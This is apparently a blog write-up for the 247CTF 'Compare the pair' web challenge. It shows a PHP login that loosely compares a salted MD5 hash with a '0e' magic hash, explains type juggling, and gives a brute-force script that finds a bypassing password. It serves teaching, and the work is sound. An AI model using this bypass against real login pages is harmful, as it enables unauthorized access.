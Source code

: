 ```yaml
---
title: "247CTF - Compare the pair [ WEB ]"
date: 2022-02-27T18:33:12-05:00
draft: false
---
```


## __Description__

Can you identify a way to bypass our login logic? MD5 is supposed to be a one-way function right?

## __Solution__

We are given the following php code.

```php
<?php
  require_once('flag.php');
  $password_hash = "0e902564435691274142490923013038";
  $salt = "f789bbc328a3d1a3";
  if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){
    echo $flag;
  }
  echo highlight_file(__FILE__, true);
?>
```

PHP has a feature called `type juggling` or `type coercion`. This means that during the comparison of variables of different types, PHP will first convert them to a common, comparable type. Let's see the relevance of this in our code.

Note that the variable `password_hash` starts with 0e and everything else is numbers (php magic hashes) so it is considered as a float. 

```php
$password_hash = "0e902564435691274142490923013038";
```

If we continue reading the code, we will notice that a loose comparison is being made:

```php
isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash
```

Let's see what this type of comparison is about according to https://techgeekgalaxy.com/.

```
In PHP, variables of different data types can be compared using the loose comparison operator which is two equal signs (==). If two operands of different types are compared using loose comparison then there is an attempt to convert one or both of the operands and then compare them. The result of the conditional after conversion of an operand can sometimes lead to bugs or security exploits.
```

Once we have understood what it is all about, let's move on to the exploitation phase. The goal is quite simple, find a string that when mixed with the salt creates an MD5 hash starting with 0e and all other digits.

```php
<?php
$salt = "f789bbc328a3d1a3";
$x = 1;
while (True){
    if (md5($salt . $x) == 0){
        echo $x;
        $x++;
    } else{
        $x++;
    }
}
?>
```

The only thing missing would be to enter and pass the output to the password parameter.

```
https://76df5ddee940a4a1.247ctf.com/?password=<Output>
```

Thanks to Maiky for helping me solve the challenge, link to her [blog](https://maikypedia.gitlab.io/posts/).

I hope you enjoyed it! :D